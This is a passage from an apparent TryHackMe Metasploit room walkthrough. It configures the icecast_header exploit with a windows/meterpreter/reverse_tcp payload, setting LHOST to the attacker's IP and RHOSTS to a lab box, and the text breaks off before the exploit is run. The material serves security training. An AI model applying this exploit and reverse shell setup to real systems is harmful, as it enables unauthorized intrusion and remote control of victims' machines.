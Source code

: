 	![icecast](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/metasploit/metasploit3.png)
	
	`exploit/windows/http/icecast_header`

7. While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command `use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

	![search](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/metasploit/metasploit4.png)
	
	`#`

8. Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.

9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

11. One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.
